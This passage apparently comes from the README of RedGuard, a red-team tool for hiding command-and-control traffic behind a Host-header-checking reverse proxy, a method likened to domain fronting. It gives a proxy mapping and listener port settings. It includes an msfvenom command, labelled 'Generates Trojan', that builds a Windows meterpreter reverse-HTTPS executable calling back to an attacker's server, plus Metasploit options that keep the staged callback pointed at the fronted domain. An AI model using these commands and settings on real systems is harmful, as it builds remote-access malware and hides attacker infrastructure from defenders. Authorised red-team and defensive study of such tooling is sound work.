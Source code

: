 In single combat, we can set an interception rules on the cloud server firewall.

![image.png](https://github.com/wikiZ/RedGuardImage/raw/main/20220522150356-58b9586c-d99d-1.png)

Then set the address pointed to by the proxy to <https://127.0.0.1:4433>.

```bash
{"360.net":"http://127.0.0.1:8080","360.com":"https://127.0.0.1:4433"}
```

And because our basic verification is based on the HTTP HOST request header, what we see in the HTTP traffic is also the same as the domain fronting method, but the cost is lower, and only one cloud server is needed.

![image.png](https://github.com/wikiZ/RedGuardImage/raw/main/20220522150942-26f6c264-d99e-1.png)

For the listener settings, the `HTTPS Port (C2)` is set to the RedGuard reverse proxy port, and the `HTTPS Port (Bind)` is the actual connection port of the local machine.

## Metasploit

**Generates Trojan**

```bash
$ msfvenom -p windows/meterpreter/reverse_https LHOST=vpsip LPORT=443 HttpHostHeader=360.com 
-f exe -o ~/path/to/payload.exe
```

Of course, as a domain fronting scenario, you can also configure your LHOST to use any domain name of the manufacturer's CDN, and pay attention to setting the HttpHostHeader to match RedGuard.

```bash
setg OverrideLHOST 360.com
setg OverrideLPORT 443
setg OverrideRequestHost true
```

It is important to note that the `OverrideRequestHost` setting must be set to `true`. This is due to a feature in the way Metasploit handles incoming HTTP/S requests by default when generating configuration for staging payloads. By default, Metasploit uses the incoming request's `Host` header value (if present) for second-stage configuration instead of the `LHOST` parameter. Therefore, the build stage is configured to send requests directly to your hidden domain name because CloudFront passes your internal domain in the `Host` header of forwarded requests. This is clearly not what we are asking for. Using the `OverrideRequestHost` configuration value, we can force Metasploit to ignore the incoming `Host` header and instead use the `LHOST` configuration value pointing to the origin CloudFront domain.

The listener is set to the actual line port that matches the address RedGuard actually forwards to.

![867551fe860b10ca1396498a85422b4.jpg](https://github.com/wikiZ/RedGuardImage/raw/main/73315c83562826f16f64e2b277736c1.png)

RedGuard received the request:

![867551fe860b10ca1396498a85422b4.jpg](https://github.com/wikiZ/RedGuardImage/raw/main/159a00e6c5596bc3542701b4a8020b1.png)

## Cyberspace Search Mapping
